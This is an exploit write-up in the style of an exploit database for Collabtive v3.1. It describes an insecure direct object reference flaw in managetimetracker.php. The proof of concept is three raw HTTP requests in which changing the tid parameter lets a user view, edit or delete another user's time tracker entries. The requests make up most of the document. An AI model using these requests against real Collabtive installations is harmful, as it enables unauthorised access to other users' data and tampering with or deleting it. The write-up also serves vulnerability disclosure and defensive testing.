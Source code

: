 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/update/delete the time tracker that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managetimetracker.php?action=editform&tid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
POST /managetimetracker.php?action=edit&tid=1(CHANGE HERE)&id=1 HTTP/1.1
...

ttask=&day=21.12.2023&started=08%3A00&endday=21.12.2023&ended=09%3A00&comment=1111USER1&tid=&id=1
```

```
GET /managetimetracker.php?action=del&tid=1(CHANGE HERE)&id=1 HTTP/1.1
```